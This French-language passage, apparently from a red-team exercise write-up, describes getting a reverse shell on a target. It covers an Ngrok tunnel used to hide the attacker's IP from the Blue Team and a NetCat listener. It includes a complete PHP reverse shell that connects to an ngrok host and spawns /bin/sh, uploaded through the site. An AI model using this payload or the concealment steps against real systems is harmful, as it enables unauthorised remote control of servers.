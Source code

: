 On obtient un ping réussi, nous indiquant que la machine hôte a les permissions pour émettre une connexion. De ce fait, nous préparons notre machine attaquante pour recevoir le shell. 
Nous commençons par établir un tunnel tcp Ngrok vers notre port 4444 pour deux raisons : 
Permettre d’exposer publiquement notre adresse IP et notre port de manière sécurisée
Ajouter une couche d’obfuscation entre notre IP réelle et la trace visible sur la machine cible, afin de ne pas directement donner notre position à une possible réponse de la part de la Blue Team.

![25-1.png](./screenshots/25-1.png)
*
![25-2.png](./screenshots/25-2.png)

Une fois le tunnel établi, nous établissons un listener sur le port 4444 via l’outil NetCat afin de recevoir la tentative de connexion de la machine cible.

![26.png](./screenshots/26.png)

Une fois le listener actif, nous déposons le script suivant via le site web : 

```php
<?php
// Reverse shell via ngrok
$ip = "7.tcp.eu.ngrok.io";
$port = 19659;

// Création de la connexion vers l'attaquant
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", [
    0 => $sock,
    1 => $sock,
    2 => $sock
], $pipes);
?>
```
Une fois le script déposé, il nous suffit simplement de naviguer vers l’emplacement de son fichier et la connexion s'établit, nous offrant un reverse shell sur la machine cible.
